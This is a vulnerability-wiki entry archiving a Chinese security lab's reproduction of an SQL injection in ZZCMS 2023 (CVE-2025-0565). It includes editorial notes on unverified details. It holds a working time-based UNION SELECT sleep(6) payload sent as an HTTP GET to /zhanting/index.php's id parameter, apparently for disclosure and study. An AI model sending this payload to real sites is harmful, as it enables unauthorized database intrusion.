




# 【成功复现】ZZCMS系统SQL注入漏洞(CVE-2025-0565)

> 编号角色校订（2026-10-04）：按技术主体及多编号分节核对主讨论对象、链成员与引用，当前编号字段据此更新；旧编号原值及 `identifier_status` 均保留，变更前字段保存在 `previous_*`。后文原有角色待核项按当前字段阅读，版本、配置及证据缺口未因此自动解决；原作者的复现声明不升级为维护者复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ZZCMS0565
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：2023版本应固定构建，具体修复未知
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 描述/index.php与PoC/zhanting/index.php需统一完整路径
2. 2023版本应固定构建，具体修复未知
3. 37列union时间型载荷依结构且可能每行sleep，需基线/对照
4. 成功截图非wiki自测
5. 保留研究者GitHub原文，厂商主页不等于精确补丁，清营销

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 弥天安全实验室  弥天安全实验室   2025-06-04 12:04  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
  
  
  
**0x01漏洞介绍**  
  
  
  
  
ZZCMS是中国ZZCMS团队的一套内容管理系统（CMS）。  
ZZCMS是一款功能强大且灵活的内容管理系统，专为企业和个人用户设计，旨在简化网站建设与管理流程。它提供了丰富的模块和插件，支持多种网站类型，如企业官网、电商平台、博客等。  
  
ZZCMS存在注入漏洞，该漏洞源于/index.php页面的id参数包含一个SQL注入漏洞。  
  
  
  
  
  
**0x02影响版本**  
  
  
    
ZZCMS 2023  
  
  
  
  
  
  
**0x03漏洞复现**  
  
1.访问漏洞环境  
  
  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
```
GET /zhanting/index.php?id=1'union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,sleep(6)+--+x&skin= HTTP/1.1
Host: 127.0.0.1
```  
  
     通过sleep函数睡眠6秒判断漏洞存在  
  
  
  
  
3.Yakit插件  
测试  
  
  
  
  
  
  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！                       
```
http://bjp.zzcms.net/
https://github.com/En0t5/vul/blob/main/zzcms/zzcsm-sql-inject.md
```  
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
   弥  天  
  
安全实验室  
  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
